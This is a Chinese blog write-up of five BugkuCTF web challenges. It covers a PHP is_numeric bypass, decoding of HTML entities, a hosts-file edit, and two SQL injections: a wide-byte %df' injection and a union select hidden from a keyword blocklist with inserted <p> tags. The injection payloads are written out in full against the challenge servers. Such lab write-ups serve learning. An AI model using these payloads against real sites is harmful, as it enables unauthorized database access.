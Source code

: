 <!--yml
category: 未分类
date: 2022-04-26 14:32:18
-->

# BugkuCTF WEB解题记录 6-10_aap49042的博客-CSDN博客

> 来源：[https://blog.csdn.net/aap49042/article/details/102388431](https://blog.csdn.net/aap49042/article/details/102388431)

写了一部分的web题，算是把它最基础的一部分做了一遍，以后的几天将持续更新BugkuCTF WEB部分的题解，为了不影响阅读，所以每五道题的题解以一篇文章的形式发表，感谢大家一直以来的支持和理解，共勉~~~

矛盾

![](img/5db5440450faba62a087fd3e3b152b3a.png)

打开链接[http://120.24.86.145:8002/get/index1.php](http://120.24.86.145:8002/get/index1.php)  查看显示的源码 

```
$num=$_GET['num']; if(!is_numeric($num))
{ echo $num; if($num==1) echo 'flag{**********}';
}
```

这题同样是一道代码审计的题目

要求以GET方式传输一个num的值

这其中涉及了一个函数is_numeric，这个函数是检测变量是否为数字或数字字符串，是数字和数字字符串则返回 **`TRUE`**，否则返回 **`FALSE`**

代码显示的意思是要传入的num参数既不是数字字符串，又要等于1，这时候我们自然的联想到了科学记数法。

所以我们给num传递一个值 http://120.24.86.145:8002/get/index1.php?num=1e

flag就直接出来了

![](img/a582c8c087189661f534d350b7dcc97d.png)

web3

![](img/3acad41c741e3e659aee87590cfc2b88.png)

打开链接[http://120.24.86.145:8002/web3/](http://120.24.86.145:8002/web3/)

里边是一个 空白网页并且不断循环弹出flag就在这里，来找找吧

我们查看网页的源码发现  源码最后一排的注释标签有一串特殊的字符

![](img/4d55dde64dc58648135f6de169e84b67.png)

&#75;&#69;&#89;&#123;&#74;&#50;&#115;&#97;&#52;&#50;&#97;&#104;&#74;&#75;&#45;&#72;&#83;&#49;&#49;&#73;&#73;&#73;&#125;

我们百度查看下，这个是HTML的特殊字符  下面是一个对照表http://www.mamicode.com/info-detail-1680849.html

一个一个对比即可解出flag

第二个方法就是使用站长工具的[Unicode编码转换](http://tool.chinaz.com/tools/unicode.aspx)

直接便可爆出flag

sql注入

![](img/6b5a84d04adf93917d566f198ecadfcc.png)

题目链接[http://103.238.227.13:10083/](http://103.238.227.13:10083/)

![](img/724240a18a403314c5e88ad6c8a9ad1e.png)

这个题就是要我们进行sql注入  

因为我们不知道注入类型，首先我们右键----》查看一下源代码  

发现源代码里有一个gb2312，于是我们联想到宽字节注入

题目要求是查询key表,id=1的string字段

这样的话我们构造payload：

```
第一个    http://103.238.227.13:10083/?id=1%df'    我们构造一个宽字节输入使‘逸出，使之出现一个错误
```

![](img/32e8b8736190917d5d3882b815e12d67.png)

下面我们就可以进行注入了

继续构造第二个apyload

```
第二个     http://103.238.227.13:10083/?id=1%df' union select 1,2 %23      //查询到的表
```

![](img/247cde0dcad9d0a9b12cd530f04018d4.png)

```
第三个        http://103.238.227.13:10083/?id=1%df' union select 1,database() %23    //查询数据库的表
```

![](img/737b3289727a127781c7f7ffc5371eba.png)

最后我们构造一个payload：查询数据库内数据

```
查询库内数据     http://103.238.227.13:10083/?id=1%df' union select 1,string from sql5.key %23    
```

![](img/73ff3b5bbe038edc6a18b55744e96aae.png)

直接查询到flag

域名解析

![](img/33227b7c0049c3d6d6e8936ca403457d.png)

这个题目的意思是将flag.bugku.com解析到120.24.86.145     

原理就是更改电脑host文件达到目的

```
windows的hosts路径    C:\Windows\System32\drivers\etc       
```

直接打开hosts文件在最后边加入120.24.86.145      flag.bugku.com  (不用管前面什么内容)

PS：更改系统文件注意备份

![](img/1dc91197872c5baaee217a2a094c677f.png)

这时候我们再在浏览器中打开flag.bugku.com   falg就直接爆出来了

![](img/4f4c8342708f58c6aeb985f7fe37d2ec.png)

SQL注入1

![](img/e347633d254a06919e09ae3f1f1b23ed.png)

题目链接：[http://103.238.227.13:10087/](http://103.238.227.13:10087/)  

打开之后我们可以看到有这样一串代码

```
//过滤sql
$array = array('table','union','and','or','load_file','create','delete','select','update','sleep','alter','drop','truncate','from','max','min','order','limit');
foreach ($array as $value)
{
    if (substr_count($id, $value) > 0)
    {
        exit('包含敏感关键字！'.$value);
    }
}

//xss过滤
$id = strip_tags($id);

$query = "SELECT * FROM temp WHERE id={$id} LIMIT 1";
```

上边有//过滤sql

对sql的注入语句进行了严格的过滤，从这里看我们貌似没有什么注入的思路

下面的//xss过滤

 里边有一个 strip_tags($id)函数  我们百度一下可以了解到

```
strip_tags ()函数的作用      用来从字符串中去除 HTML 和 PHP 标记。
```

这样我们就想到可以试试在sql注入的语句中加入html或者php代码来绕过过滤

查看一下源代码，可以使用普通的注入

我们构造一个payload：

```
注入语句     http://103.238.227.13:10087/?id=1 un<p>ion sel<p>ect 1,hash fr<p>om sql3.key %23
```

PS:上一篇sql手工注入文章写了中间的详细步骤 ，不太了解的查阅下[BugkuCTF sql注入](https://www.cnblogs.com/Anser-dabao-982480259/p/9449965.html)

直接就爆出了答案，这个应该就是我们要的flag